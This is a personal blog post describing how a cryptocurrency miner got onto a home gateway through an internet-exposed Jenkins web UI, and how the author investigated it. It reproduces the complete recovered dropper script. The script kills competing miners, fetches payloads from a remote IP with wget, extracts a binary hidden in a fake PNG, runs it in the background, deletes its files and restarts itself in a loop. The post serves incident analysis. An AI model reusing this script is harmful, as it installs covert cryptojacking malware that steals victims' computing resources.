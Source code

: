 Title: Mining via Atom processor
Date: 2017-07-18 07:44
Tags: mining, hack, jenkins

No, it is not about mining. :) The story is about infecting poor Atom-based gateway host with mining software through Jenkins web UI.

Couple of days ago I noticed strange noise from my home gateway fans. The reason was all the 8 cores were 100% loaded with processes named `irq` and `irqbalanc1`.

First, I just checked the source and decided that those processes were spawned by some Jenkins job. Sadly I got no time to investigate, so 8 hours later host was infested again, but I didn't knew it yet.

Days later I finished my real life stuff and remembered about strange load. Then I went to check the logs, temperature graph, etc. Later I would know that my Jenkins web UI was exposed to the internet to let GitHub hooks start jobs and host got infested using this interface. As for now, I just moved it to secret location, unavailable without knowing direct link.

And here comes the interesting part, see the investigation:

```
$ ps auxfww
root      1972  0.1  0.1 782452 56964 ?        Ssl  Jul04  26:19 /usr/bin/dockerd -H fd://
root      2265  0.0  0.0 754852 13808 ?        Ssl  Jul04  15:42  \_ containerd -l unix:///var/run/docker/libcontainerd/docker-containerd.sock --shim containerd-shim --metrics-interval=0 --start-timeout 2m --state-dir /var/run/docker/libcontainerd/containerd --runtime runc
root      1431  0.0  0.0 356400  7964 ?        Sl   Jul16   0:00  |   \_ containerd-shim 771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f /var/run/docker/libcontainerd/771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f runc
user      1451  0.0  0.0   1104     4 ?        Ss   Jul16   0:05  |       \_ /bin/tini -- /usr/local/bin/jenkins.sh
user      1475  0.1  9.3 14247684 3065036 ?    Sl   Jul16   5:57  |           \_ java -jar /usr/share/jenkins/jenkins.war
user       888  0.0  0.0   4332  1548 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     19520  0.0  0.0  12816   980 ?        S    Jul16   0:00  |               |   \_ grep -v grep
user     29026  0.0  0.0   4332  1576 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     29158  691  0.0 677948 20696 ?        Sl   Jul16 14660:11  |                   \_ /var/tmp/irqbalanc1 -c /var/tmp/httpd.conf
```

Of course, file was deleted after execution, so here i restore it from RAM:

```
lsof -p 29026
cp /proc/29026/fd/10 ~/fraud.sh
cat ~/fraud.sh
```

See it's getting files from IP 185.162.10.190 (hosting company already got abuse ticket) and extracting code form those via dd using specific offset. Kinda smart.

```
#!/bin/sh
pkill -f apaceha
pkill -f cryptonight
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs ps --ppid|awk '{print $1}'|grep -v PID|xargs kill -9
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs kill -9
ps -u jenkins|grep sh|grep -v irq|grep -v jenkins|grep -v grep|awk '{print $1}'|xargs kill -9
#ps ax|grep httpd.conf|grep -v irq|grep -v grep|grep tmp|awk '{print $1}'|xargs kill -9
ps -ef|grep .sh|grep tmp|grep -v irq|grep -v grep|grep -v gosh|cut -c 9-15|xargs kill -9
pkill -f 45.76.102.45
pkill -f stratum
pkill -f mixnerdx
pkill -f performedl
pkill -f wget
pkill -f sleep
#pkill -f /tmp/httpd.conf
pkill -f JnKihGjn
pkill -f irqba2anc1
pkill -f irqba5xnc1
pkill -f irqbnc1
pkill -f ir29xc1
pkill -f conns
pkill -f irqbalance
pkill -f crypto-pool
pkill -f minexmr
pkill -f XJnRj
pkill -f NXLAi
pkill -f BI5zj
pkill -f askdljlqw
pkill -f minerd
pkill -f minergate
pkill -f Guard.sh
pkill -f ysaydh
pkill -f bonns
pkill -f donns
pkill -f kxjd
pkill -f 108.61.186.224
pkill -f Duck.sh
pkill -f bonn.sh
pkill -f conn.sh
pkill -f kworker34
pkill -f kw.sh
pkill -f pro.sh
pkill -f polkitd
pkill -f acpid
ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
pkill -f 45.76.146.166
rm -rf /tmp/httpd.conf
rm -rf /tmp/conn
rm -rf /tmp/conns
rm -f /tmp/irq.sh
rm -f /tmp/irqbalanc1

ps auxf|grep -v grep|grep "irqbalanc1"|grep defunct|awk '{print $2}'|xargs kill -9

sleepTime=20

ps -fe|grep irqbalanc1 |grep -v defunct|grep -v grep
if [ $? -ne 0 ]
    then
    echo "start process....."

    cat /proc/cpuinfo|grep aes>/dev/null
    if [ $? -ne 1 ]
        then
        wget 185.162.10.190/miu1.png -O /tmp/conn
        dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
    else
        wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
    fi

    chmod +x /tmp/irqbalanc1
    wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
    nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
    sleep 5
    rm -rf /tmp/httpd.conf
    rm -rf /tmp/conn
    rm -rf /tmp/conns
    rm -f /tmp/irq.sh
    rm -f /tmp/irq
    rm -f /tmp/irqbalanc1
    while [ 0 -lt 1 ]
    do
        ps -fe| grep irqbalanc1 |grep -v defunct| grep -v grep
        if [ $? -ne 0 ]
            then
            echo "process not exists ,restart process now... "
            cat /proc/cpuinfo|grep aes>/dev/null
            if [ $? -ne 1 ]
                then
                wget 185.162.10.190/miu1.png -O /tmp/conn
                dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
            else
                wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
            fi

            chmod +x /tmp/irqbalanc1
            wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
            nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
            sleep 5
            rm -rf /tmp/httpd.conf
            rm -rf /tmp/conn
            rm -rf /tmp/conns
            rm -f /tmp/irq.sh
            rm -f /tmp/irq
            rm -f /tmp/irqbalanc1
            echo "restart done ..... "
        else
            echo "process exists , sleep $sleepTime seconds "
            pkill -f cryptonight
            pkill -f apaceha
            pkill -f 45.76.102.45
            pkill -f mixnerdx
            pkill -f performedl
            pkill -f JnKihGjn
            pkill -f irqba2anc1
            pkill -f irqba5xnc1
            pkill -f irqbnc1
            pkill -f ir29xc1
            pkill -f conns
            pkill -f irqbalance
            pkill -f crypto-pool
            pkill -f minexmr
            pkill -f XJnRj
            pkill -f NXLAi
            pkill -f BI5zj
            pkill -f askdljlqw
            pkill -f minerd
            pkill -f Guard.sh
            pkill -f ysaydh
            pkill -f bonns
            pkill -f donns
            pkill -f kxjd
            pkill -f 108.61.186.224
            pkill -f Duck.sh
            pkill -f bonn.sh
            pkill -f conn.sh
            pkill -f kworker34
            pkill -f pro.sh
            pkill -f polkitd
            pkill -f acpid
            pkill -f stratum
            ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
            pkill -f 45.76.146.166

        fi
        sleep $sleepTime
    done


else
    echo "runing....."
```

Then script connects to 139.60.160.248 (it is located in `httpd.conf`) and do stuff, using your CPU. I'm also sending abuse to this company to just let them know someone is playing dirty out there. Not sure if they could block this particular IP or something.

I also thoght that it is possible to find wallet accepting address within binary file (as there is no such in config file), but got no luck. Probably it could be located inside `/proc/*/cmdline` or around, but now it's too late as the process was killed.

Please let me know if you got ideas how to continue investigation.
